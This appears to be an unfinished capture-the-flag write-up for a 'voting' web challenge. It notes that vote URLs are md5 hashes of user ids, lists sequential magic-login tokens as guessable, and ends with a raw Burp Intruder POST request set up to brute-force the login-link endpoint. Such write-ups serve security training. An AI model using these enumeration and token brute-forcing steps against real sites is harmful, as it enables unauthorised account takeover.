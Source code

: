 Proof of Solving
---------------

Registered. Mail didn’t come. retry retry retry

Mail did come after a while.

Voted. Observed that your-vote has md5

Also got hint
```html
<!-- show the secret win code to admin user (id:1) -->
```


https://voting.challs.cybersecuritychallenge.ro/index.php/dashboard/your-vote/c4ca4238a0b923820dcc509a6f75849b

Got email of admin `sqe027adVn@bkmvenjrbhvuerb23.com`

what now?

looked around. observed in burp some i-am-old link. tried. magic login link.

```
5ca87d744
5ca87d759
5ca87d76d
5ca87d7c1
5ca87d775
5ca87d781
5ca87d795
5ca87d7a1
5ca87d7b9
5ca87d7c9
5ca87d02a
5ca87d03b
```

Seems bruteforceable.

Run burp intruder with
```http
POST /index.php/old-request HTTP/1.1
Host: voting.challs.cybersecuritychallenge.ro
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://voting.challs.cybersecuritychallenge.ro/index.php/i-am-old
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
DNT: 1
Connection: close

_token=xqECJlt3eF6feIQMbvOVaglQHs8FZJxjo3Izlcfo&email=§myemail%40gmail.com§
```
